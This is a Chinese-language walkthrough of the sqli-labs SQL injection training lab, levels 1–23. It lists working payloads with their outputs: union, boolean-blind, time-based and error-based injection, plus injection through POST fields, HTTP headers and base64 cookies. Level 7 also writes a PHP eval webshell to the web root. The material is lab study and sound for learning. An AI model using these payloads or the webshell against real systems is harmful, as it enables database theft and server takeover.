


## Less-1

1、判断出为字符型注入，且为单引号闭合

```
?id=1' 
报错： You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1 
-->单引号未闭合导致语法错误。

?id=1 and 1=1
-->页面正常，‘and 1=1’被作为字符串处理

?id=1' --+
-->页面正常，确认为单引号闭合
```

2、确定列数为3

```
?id=1' order by 1,2,3 --+
-->正常

?id=1' order by 1,2,3,4 --+
-->Unknown column '4' in 'order clause'
```

3、判断回显位为2，3

```
?id=-1' union select 1,2,3 --+
--> Welcome    Dhakkan
    Your Login name:2
     Your Password:3
```

4、查用户、数据库名、数据库版本

```
?id=-1' union select 1,database(),3 --+
-->security

?id=-1' union select 1,version(),3 --+
-->10.2.26-MariaDB-log

?id=-1' union select 1,user(),3 --+
-->root@localhost
```

5、当前数据库所有表名

```
?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
-->emails,referers,uagents,users
```

6、查看users表

```
?id=-2' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'and table_schema='security' --+
-->id,username,password
```

7、查看username和password

```
?id=-1' union select 1,2,group_concat(username ,'~', password) from users--+
-->Dumb~Dumb,Angelina~I-kill-you,Dummy~p@ssword,secure~crappy,stupid~stupidity,superman~genious,batman~mob!le,admin~admin,admin1~admin1,admin2~admin2,admin3~admin3,dhakkan~dumbo,admin4~admin4
```

## Less-2

1、判断为数字型注入，

```
?id=1'
--> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' LIMIT 0,1' at line 1 

?id=1 and 1=1
-->正常

?id=1 and 1=2
-->报错
```

2、确定列数为3

```
?id=1 order by 1,2,3
-->Your Login name:Dumb
    Your Password:Dumb 

?id=1 order by 1,2,3,4
--> Unknown column '4' in 'order clause' 
```

3、判断回显位为2，3,查用户、数据库名、数据库版本

```
?id=-1 union select 1,user(),database()
-->Your Login name:root@localhost
    Your Password:security
```

4、当前数据库所有表名

```
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
-->emails,referers,uagents,users
```

5、查看users表

```
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'and table_schema='security' --+
-->id,username,password
```

6、查看username和password

```
?id=-1 union select 1,2,group_concat(username ,'~', password) from users--+
-->Dumb~Dumb,Angelina~I-kill-you,Dummy~p@ssword,secure~crappy,stupid~stupidity,superman~genious,batman~mob!le,admin~admin,admin1~admin1,admin2~admin2,admin3~admin3,dhakkan~dumbo,admin4~admin4
```

## Less-3

1、判断出为字符型注入，且为`')`闭合

```
?id=1' 
-->报错：  You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1 

?id=1')
--> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '') LIMIT 0,1' at line 1 

?id=1') --+
-->页面正常
```

2、确定列数为3

```
?id=1') order by 1,2,3 --+
-->正常

?id=1') order by 1,2,3,4 --+
-->Unknown column '4' in 'order clause'
```

3、判断回显位为2，3

```
?id=-1') union select 1,2,3 --+
--> Welcome    Dhakkan
    Your Login name:2
     Your Password:3
```

4、查用户、数据库名、数据库版本

```
?id=-1') union select 1,database(),3 --+
-->security

?id=-1') union select 1,version(),3 --+
-->10.2.26-MariaDB-log

?id=-1') union select 1,user(),3 --+
-->root@localhost
```

5、当前数据库所有表名

```
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
-->emails,referers,uagents,users
```

6、查看users表

```
?id=-2') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'and table_schema='security' --+
-->id,username,password
```

7、查看username和password

```
?id=-1') union select 1,2,group_concat(username ,'~', password) from users--+
-->Dumb~Dumb,Angelina~I-kill-you,Dummy~p@ssword,secure~crappy,stupid~stupidity,superman~genious,batman~mob!le,admin~admin,admin1~admin1,admin2~admin2,admin3~admin3,dhakkan~dumbo,admin4~admin4
```

## Less-4

1、判断出为字符型注入，且为`")`闭合

```
?id=1"
--> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1 

?id=1")
-->  You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '") LIMIT 0,1' at line 1 

?id=1") --+
-->页面正常
```

2、确定列数为3

```
?id=1") order by 1,2,3 --+
-->正常

?id=1") order by 1,2,3,4 --+
-->Unknown column '4' in 'order clause'
```

3、判断回显位为2，3

```
?id=-1") union select 1,2,3 --+
--> Welcome    Dhakkan
    Your Login name:2
     Your Password:3
```

4、查用户、数据库名、数据库版本

```
?id=-1") union select 1,database(),3 --+
-->security

?id=-1") union select 1,version(),3 --+
-->10.2.26-MariaDB-log

?id=-1") union select 1,user(),3 --+
-->root@localhost
```

5、当前数据库所有表名

```
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
-->emails,referers,uagents,users
```

6、查看users表

```
?id=-2") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'and table_schema='security' --+
-->id,username,password
```

7、查看username和password

```
?id=-1") union select 1,2,group_concat(username ,'~', password) from users--+
-->Dumb~Dumb,Angelina~I-kill-you,Dummy~p@ssword,secure~crappy,stupid~stupidity,superman~genious,batman~mob!le,admin~admin,admin1~admin1,admin2~admin2,admin3~admin3,dhakkan~dumbo,admin4~admin4
```

## Less-5

1、先确定为字符型注入且单引号闭合

```
?id=1' 
--> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

?id=1' --+
--> You are in...........
```

2、列数为3

```
?id=-1' union select 1,2,3,4 --+
--> The used SELECT statements have a different number of columns

?id=-1' union select 1,2,3 --+
--> You are in...........
```

3、使用联合注入没有回显，所以转向盲注或者报错注入

```
?id=-1' union select 1,2,database() --+
--> You are in...........
```

### **布尔盲注：**

页面根据条件真/假返回不同结果，说明存在布尔盲注，

```
?id=1' and 1=2 --+
--> 无回显

?id=1' and 1=1 --+
--> You are in...........
```

1. **获取数据库名**
   
   **猜长度**

```
?id=1' and length(database())=8 --+
--> You are in...........
页面正常，数据库名长度为8。
```

```
**逐字符猜解**（布尔注入的麻烦点就在这里，需要一个一个去猜，当然这是手动注入）
```

```
?id=1' and substr(database(),1,1)='s' --+
--> You are in...........
第1个字符为 s，猜测数据库名为security，可以一一验证。
```

> **猜解过程**：
> 
> 1. 第1个字符：从ASCII码范围（通常测试`a-z`、`0-9`、`_`）逐一尝试，直到页面正常。
> 
> 2. 第2个字符：修改为`substr(database(),2,1)`，重复上述过程。
> 
> 3. 重复至第8个字符（`substr(database(),8,1)`）。
> 
> 4. ASCII码总结整理
> 
> 标准ASCII码.md

2. **获取表名**
- **猜解表的数量**：  
  `?id=1' and (select count(table_name) from information_schema.tables where table_schema=database())=4 --+`→ 确认为4张表。

- **猜解表名长度**：  
  `?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6 --+`→ 第一张表名长度为6。

- **逐字符猜解表名**：  
  `?id=1' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='e' --+`→ 第一张表的第1个字符为`e`。
  
  3. **获取列名**

- **猜解列的数量**：  
  `?id=1' and (select count(column_name) from information_schema.columns where table_name='users')=3 --+`→ 确认为3列。

- **逐字符猜解列名**：  
  `?id=1' and substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='i' --+`→ 第一列的第1个字符为`i`。
4. **提取数据（如用户名/密码）**
- **猜解第一条记录的username**：  
  `?id=1' and substr((select username from users limit 0,1),1,1)='D' --+`→ 用户名的第1个字符为`D`。

- **猜解对应密码**：  
  `?id=1' and substr((select password from users limit 0,1),1,1)='D' --+`→ 密码的第1个字符为`D`。

### **报错注入**

这一关使用报错注入好一些

#### 1.updatexml报错

- 数据库名称

```
?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1)--+
```


- 数据表名称

```
?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)--+
```


- 字段名称

```
?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1)--+
```


- 用户名

```
?id=1' and updatexml(1,concat(0x7e,(select group_concat(username) from users),0x7e),1)--+
```


- 密码

```
?id=1' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1)--+
```


#### 2.extractvalue报错

- 数据库名称

```
?id=1' and extractvalue(1,concat(0x23,database(),0x23))--+
```


- 数据表名称

```
?id=1' and extractvalue(1,concat(0x23,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x23))--+
```


- 查看users表，列名

```
?id=1' and extaractvalue(1,concat(0x23,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x23))--+
```


- 字段名

```
?id=1' and extractvalue(1,concat(0x23,(select group_concat(username) from users),0x23))--+
```


- 用户名和密码

```
?id=1' and extractvalue(1,concat(0x23,(select substring(group_concat(username,'~',password),1,30) from users))) --+
```

因为不能全部显示，所以更改二、三参数来一段一段查看


```
?id=1' and (extractvalue(1,concat(0x7e,(select password from users limit 0,1),0x7e))) --+
```

也可以使用 limit 0,1 查询


## Less-6

less-6与less-5的区别在于注入点不同，less-5是单引号，less-6是双引号，其他的都一样。

```
?id=1" and extractvalue(1,concat(0x23,database(),0x23))--+

?id=1" and extractvalue(1,concat(0x23,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x23))--+

?id=1" and extaractvalue(1,concat(0x23,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x23))--+

?id=1" and extractvalue(1,concat(0x23,(select group_concat(username) from users),0x23))--+

?id=1" and extractvalue(1,concat(0x23,(select substring(group_concat(username,'~',password),1,30) from users))) --+
```


## Less-7

判断闭合为：`'))`


#### 方法一：布尔盲注

- 猜数据库名长度：

`?id=1')) and length((select database()))=8 --+`

- 猜测security为数据库，页面返回正确

`?id=1')) and mid(database(),1,1)='s'--+`

`?id=1')) and mid(database(),8,1)='y'--+`

- 猜出表名，列名

`?id=1')) and ascii(mid((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1))=117--+`

- 获取数据

`?id=1')) and ascii(substr((select group_concat(password,username) from users limit 0,1),1,1))>=65--+`

#### 方法二：outfile导出文件

根据页面正常返回`You are in.... Use outfile......`

- 我们可以在1-6关中注入获得数据库路径，

`@@datadir`返回的是数据库存储数据的路径

```
?id=-1' union select 1,2,@@datadir --+
==>D:\CTF-Tools\phpstudy_pro\Extensions\MySQL5.7.26\data\
```


- 查看是否有读写权限：

```
?id=1')) and (select count(*) from mysql.user)>0 --+
```


- 尝试写入文件：

```
?id=1')) union select 1,2,3 into outfile 'D:\\CTF-Tools\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\1.txt' --+
```

此时查看文件夹并没有被写入文件，问题在于权限太低，需要修改配置文件：

需要打开`phpstudy\MySQL\my.ini`文件，在其中加上一句：`secure_file_priv="/"`


再次执行，已经生成了1.txt


- 写一句话木马

```
?id=1')) union select 1,2,'<?php @eval($_POST["admin"])?>' into outfile "D:\\CTF-Tools\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\1.php" --+
```


- 之后可以用蚁剑连接

## Less-8

判断闭合为：`'`

#### 方法一：布尔盲注

- 猜数据库名长度：

`?id=1' and length((select database()))=8 --+`

- 猜测security为数据库，页面返回正确

`?id=1' and mid(database(),1,1)='s'--+`

`?id=1' and mid(database(),8,1)='y'--+`

- 猜出表名，列名

`?id=1' and ascii(mid((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1))=117--+`

- 获取数据

`?id=1' and ascii(substr((select group_concat(password,username) from users limit 0,1),1,1))>=65--+`

**用left()函数的布尔盲注**

[MySQL left()函数](https://blog.csdn.net/moakun/article/details/82086078)

- 猜数据库版本号

`?id=1' and left(version(),1)=5 --+`

- 猜测security为数据库，页面返回正确

`?id=1' and left(database(),1)='s'--+`

`?id=1' and left(database(),2)='se'--+`

...

`?id=1' and left(database(),8)='security' --+`

- 猜出表名，列名

`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>80 --+`

`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100 --+`

`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>101 -- +`==>页面无回显

推断出securrity第一个表的第一个字符为e

`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>80 --+`

`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>108 --+`

`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>109 -- +`

推断出securrity第一个表第二个字符为m

...

同理推出第3,4,5,6字符，最终推出emails表

- 获取数据

`?id=1' and ascii(substr((select group_concat(password,username) from users limit 0,1),1,1))>=65--+`

#### 方法二：延时注入

给出一例：

`?id=1 and if(ascii(substr(database(),1,1))=115,1,sleep(5))--+`

## Less-9

延时注入/时间盲注：

- 猜测数据库：
  
  `?id=1' and If(ascii(substr(database(),1,1))=115,1,sleep(5))--+`
  
  第一位是 s
  
  `?id=1' and If(ascii(substr(database(),2,1))=101,1,sleep(5))--+`
  
  第二位是 e
  
  ....
  
  以此类推，数据库名是 security

- 猜测 security 的数据表：
  
  `?id=1'and If(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101,1,sleep(5))--+`
  
  - 猜测第一个数据表，得到 emails
  
  `?id=1'and If(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),1,1))=114,1,sleep(5))--+`

- 猜测第二个数据表，得到 referers

- 得到所有的数据表 emails,referers,uagents,users

- 猜测 users 表的列：
  
  `?id=1'and If(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=105,1,sleep(5))--+`
  
  - 猜测 users 表的第一个列的第一个字符是 i，
  
  - 以此类推，得到列名是 id，username，password

- 猜测 username 的值：
  
  `?id=1'and If(ascii(substr((select username from users limit 0,1),1,1))=68,1,sleep(5))--+`
  
  - 猜测 username 的第一行的第一位
  
  - 以此类推，我到数据库 username，password 的所有内容

## Less-10

闭合方式：`"`

同Less-9,时间盲注

## Less-11

Username : 1'

Password : 1


**注：POST注入中，注释符要用`#`或`-- a`**

#### 方法一：POST-联合注入

`1' union select 1,database() #`

POST:`passwd=1&submit=Submit&uname=%601%27+union+select+1%2Cdatabase%28%29+%23%60`

显示出数据库：`security`


POST:`passwd=1&submit=Submit&uname=a%27+order+by+2+--+a`

`passwd=1&submit=Submit&uname=a%27+order+by+3+--+a`


获取所有数据库，

POST:

```
passwd=1&submit=Submit&uname=a' union select 1,(select group_concat(schema_name) from information_schema.schemata)  -- a
```


获取 security 库的所有表，

POST:

```
passwd=1&submit=Submit&uname=a' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema="security")  -- a
```


获取 users 表的所有字段

POST:

```
passwd=1&submit=Submit&uname=a' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="users")  -- a
```


获取数据库用户的密码

POST:

```
passwd=1&submit=Submit&uname=a' union select 1,group_concat(id, ':', username, ':', password) from security.users -- a
```


#### 方式二：报错注入

- 判断是否报错
  
  a'

报错`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1' LIMIT 0,1' at line 1`

适合使用报错注入。


- 判断报错条件
  
  `a' and updatexml(1,0x7e,3) -- a`

页面正常显示报错信息，确定报错函数可以使用。


- 获取所有数据库，

`a' and updatexml(1,concat(0x7e,substr((select group_concat(schema_name) from information_schema.schemata),33,31)),3) -- a`


- 获取 security 库的所有表，

`a' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema="security"),1,31)),3) -- a`


- 获取 users 表的所有字段，

`a' and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="users"),1,31)),3) -- a`


- 获取数据库的用户名和密码：
  
  `a' and updatexml(1,concat(0x7e,(select group_concat(username) from users),0x7e),1)-- a`
  
  `a' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1)-- a`


## Less-12

同Less-11，POST注入，`")`闭合

## Less-13

`')`闭合，报错注入

- 判断报错条件

`a') and updatexml(1,0x7e,3) -- a`

- 查询数据库名

```
uname=1')union select 1,extractvalue(1,concat(0x7e,(select database())))-- a&passwd=123&Submit=Submit
```

- 表名

```
uname=123')union select 1,extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security')))-- a&passwd=123&Submit=Submit
```

- 列名

```
uname=123')union select 1,extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')))-- a&passwd=123&Submit=Submit
```

- 表中内容（分段查询）

```
uname=123') and updatexml(1,concat(0x7e,(select concat(id,':',username,':',password) from security.users limit 0,1)),3) -- a&passwd=123&Submit=Submit
uname=123') and updatexml(1,concat(0x7e,(select concat(id,':',username,':',password) from security.users limit 1,1)),3) -- a&passwd=123&Submit=Submit
```

## Less-14

同Less-13，`"`闭合

## Less-15

不显示数据库的报错信息，报错注入无法使用，不会动态返回数据，无法使用联合注入。

注入点判断：

`admin' --`

返回：

`a' or 1 -- a`


`a' or 0 -- a`


可以确定注入点为单引号字符型

## Less-16

判断注入点为`")`，接下来依旧是布尔盲注

## Less-17

这一关在用户名处输入的都没有实际作用，只有输入正确的用户名后，会返回`SUCCESSFULLY UPDATED YOUR PASSWORD`,所以注入点应该在密码处。

输入：admin/a'

返回报错：

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'admin'' at line 1`

存在单引号注入点

```
#判断报错条件

a' and updatexml(1,0x7e,3) -- a

##返回：XPATH syntax error: '~'


#脱库
##查询所有数据库名
##可以分段查询：
1' and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1)),3) -- a
###返回：XPATH syntax error: '~information_schema'
1' and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 1,1)),3) -- a
###返回：XPATH syntax error: '~challenges'
1' and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 5,1)),3) -- a
###返回：XPATH syntax error: '~security'

###直接查询当前所在库
1' and updatexml(1,concat(0x7e,substr((database()),1,32)),3) -- a
返回：XPATH syntax error: '~security'


#查询 security 数据库的所有表名
1' and updatexml(1,concat(0x7e,(select group_concat(table_name)
from information_schema.tables
where table_schema="security")),3) -- a

##返回：XPATH syntax error: '~emails,referers,uagents,users'


# 查询 users 表的所有列名
1' and updatexml(1,concat(0x7e,(select group_concat(column_name)
from information_schema.columns
where table_schema="security" and table_name="users")),3) -- a

##返回：XPATH syntax error: '~id,username,password'


#查表中内容（分段查询）：

1' and updatexml(1,concat(0x7e,(select concat(id,':',username,':',password) from security.users limit 0,1)),3) -- a
##返回：You can't specify target table 'users' for update in FROM clause"你不能在 FROM 子句中指定目标表 'users' 进行更新"

1' and updatexml(1,concat(0x7e,(select concat(id,':',username,':',password) from (select * from users) as temp limit 0,1)),3) -- a
##返回：XPATH syntax error: '~1:Dumb:0'
1' and updatexml(1,concat(0x7e,(select concat(id,':',username,':',password) from (select * from users) as temp limit 1,1)),3) -- a
##返回：XPATH syntax error: '~2:Angelina:0'
```

## Less-18

User-Agent:浏览器表明自己的身份（是哪种浏览器）

（由于php搭建的sqli-labs中18关修改User Agent后没有反应，所以这一关在buuctf打）

输入admin/admin后，返回：

`Your IP ADDRESS is: 10.244.166.11 Your User Agent is: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0`

而对用户名和密码处都没有出现报错，所以注入点应该在User Agent,bp抓包改。

推断uname 和 passwd 字段都进行了强效的过滤，我们注入正确的 uname 和 passwd 之后再注入。此时发现当注入单引号闭合时，网页返回报错信息。

User Agent：`'`


注入 2 个连续的单引号，发现闭合成功，由此可见 2 个单引号分别闭合了 2 侧的单引号。

在注入的两个单引号之间可以插入其他 Sql 语句， updatexml() 报错注入语句。注意使用单引号闭合两侧的 Sql 语句时，相当于把它分割成了 2 部分，插入 updatexml() 报错时要用 OR 进行连接。

```
' OR updatexml(1,concat("!",database()),2) OR ' 
```


表名：' OR updatexml(1,concat("!",(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'security')),2) OR '

字段名： ' OR updatexml(1,concat("!",(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema = 'security' AND table_name = 'users')),2) OR '

字段内容：' OR (updatexml(1,concat('!',(SELECT concat_ws(':',username,password) FROM (SELECT username,password FROM users)text LIMIT 0,1)),1)) OR '


## Less-19

当输入正确的用户名和密码后，返回：

`Your IP ADDRESS is: 10.244.166.11 Your Referer is: http://e6eb7525-01ea-457a-b00c-6fffbc2de320.node5.buuoj.cn/Less-19/`

**Referer**是 HTTP 头的一个字段，用于告诉服务器该网页是从哪个页面链接过来的。

数据库名：Referer: ' OR updatexml(1,concat("!",database()),2) OR '

表名：Referer: ' OR updatexml(1,concat("!",(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'security')),2) OR '

字段名：Referer: ' OR updatexml(1,concat("!",(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema = 'security' AND table_name = 'users')),2) OR '

字段内容：Referer: ' OR (updatexml(1,concat('!',(SELECT concat_ws(':',username,password) FROM (SELECT username,password FROM users)text LIMIT 0,1)),1)) OR '

## Less-20

**cookie**是网站为了辨别用户身份，进行 Session 跟踪而储存在用户本地终端上的数据。想要回到登录页面，我们需要先把 cookie 清除掉。

首先输入正确的账户和密码测试，用bp抓包，抓到之后放行POST再抓GET，此时GET中会有cookie信息

此时就可以在cookie处进行测试注入


闭合  
Cookie: uname=admin'

查询库名  
Cookie: uname=admin' and updatexml(1,concat(1,database()),1) and '

查询表名  
Cookie: uname=admin' and updatexml(1,concat(1,(select group_concat(table_name) from information_schema.tables where table_schema='security')),1) and '

查询字段  
Cookie: uname=admin' and updatexml(1,concat(1,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')),1) and '

查询数据  
Cookie: uname=admin' and updatexml(1,concat(1,(select group_concat(username,'~',password) from users)),1) and '  
Cookie: uname=admin' and updatexml(1,concat(1,(select concat(username,'~',password) from users limit 0,1)),1) and '


## Less-21

这一关中的Cookie中uname参数的值是base64编码的。

抓包之后，`Cookie: uname=YWRtaW4%3D`

把uname的值粘贴到burpsuite的decoder1（编码工具）模块，尝试解码，url, html, base64，可以看到最终结果是admin%3D


把admin'放到decoder里面, 编码成base64,重放器发回去

从报错可知闭合是')


这关还是可以用报错注入，除了**每条payload都要经过一次base64编码（如果base64编码结果包含等号还要进行url编码），再作为uname的值发送**，其他还是和Less20一样。

Cookie: uname= YWRtaW4nKSM=

admin')#

Cookie: uname=JykgVU5JT04gU0VMRUNUIDEsMiwzIw==

') union select 1,2,3#

Cookie: uname=JykgVU5JT04gU0VMRUNUIGRhdGFiYXNlKCksMiwzIw==

') union select database(),2,3#

Cookie: uname=JykgVU5JT04gU0VMRUNUIGdyb3VwX2NvbmNhdCh0YWJsZV9uYW1lKSwyLDMgRlJPTSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIFdIRVJFIHRhYmxlX3NjaGVtYSA9ICdzZWN1cml0eScj

') union select group_concat(table_name),2,3 from information_schema.tables where table_schema = 'security'#

Cookie: uname=JykgVU5JT04gU0VMRUNUIGdyb3VwX2NvbmNhdChjb2x1bW5fbmFtZSksMiwzIEZST00gaW5mb3JtYXRpb25fc2NoZW1hLmNvbHVtbnMgV0hFUkUgdGFibGVfc2NoZW1hID0gJ3NlY3VyaXR5JyBBTkQgdGFibGVfbmFtZSA9ICd1c2Vycycj

') union select group_concat(column_name),2,3 from information_schema.columns where table_schema = 'security' and table_name = 'users'#

Cookie: dW5hbWU9JykgVU5JT04gU0VMRUNUIGdyb3VwX2NvbmNhdChjb25jYXQoIjoiLHVzZXJuYW1lLHBhc3N3b3JkKSksMiwzIEZST00gc2VjdXJpdHkudXNlcnMj

') union select group_concat(concat(":",username,password)),2,3 from security.users#


## Less-22

原理和上一关一样一样的（注入点在cookie的uname参数值，payload需要base64编码，如果编码后有等号还需要url编码），就是闭合换成双引号了。

注入点变成"

Cookie: uname= IiM=

" #

Cookie: uname=YSIgdW5pb24gc2VsZWN0IDEsMiwzIw==

a" union select 1,2,3#

Cookie: uname= IiB1bmlvbiBzZWxlY3QgZGF0YWJhc2UoKSwyLDMj

" union select database(),2,3#

Cookie: uname= IiB1bmlvbiBzZWxlY3QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpLDIsMyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgd2hlcmUgdGFibGVfc2NoZW1hID0gJ3NlY3VyaXR5JyM=

" union select group_concat(table_name),2,3 from information_schema.tables where table_schema = 'security'#

Cookie: uname= IiB1bmlvbiBzZWxlY3QgZ3JvdXBfY29uY2F0KGNvbHVtbl9uYW1lKSwyLDMgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyB3aGVyZSB0YWJsZV9zY2hlbWEgPSAnc2VjdXJpdHknIGFuZCB0YWJsZV9uYW1lID0gJ3VzZXJzJyM=

" union select group_concat(column_name),2,3 from information_schema.columns where table_schema = 'security' and table_name = 'users'#

Cookie: uname:= IiB1bmlvbiBzZWxlY3QgZ3JvdXBfY29uY2F0KGNvbmNhdCgiOiIsdXNlcm5hbWUscGFzc3dvcmQpKSwyLDMgZnJvbSBzZWN1cml0eS51c2VycyM=

" union select group_concat(concat(":",username,password)),2,3 from security.users#

## Less-23

**联合注入-过滤注释符**

?id=1 正常返回数据

?id=1'`**Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **D:\CTF-Tools\phpstudy_pro\WWW\sqli-labs\Less-23\index.php** on line **38** You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1` 确定是单引号字符型

?id=1' or 1 --+

?id=1' and 1=1 --+

?id=1' and 1=2 # 都显示报错信息，应该是过滤了注释符

?id=33' union select 1,2,3' 返回2，3

?id=21' union select 1,database(),3 and '

返回数据库名security

?id=99' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' '

返回：emails,referers,uagents,users

?id=99' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' '

返回：id,username,password

